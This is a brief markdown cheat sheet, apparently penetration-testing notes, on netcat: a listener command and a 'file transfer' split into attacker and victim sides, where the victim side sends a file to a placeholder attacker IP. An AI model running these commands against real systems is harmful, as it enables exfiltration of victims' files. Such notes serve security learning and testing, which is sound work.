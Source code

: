 # Netcat

### Netcat Listener
```
nc -lvnp <port>
```

### Netcat File Transfer
#### Attacker Side
```
nc -l -p <port> -q 1 > <file> < /dev/null
```
#### Victim Side
```
nc <attacker_ip> <port> < <file>
```
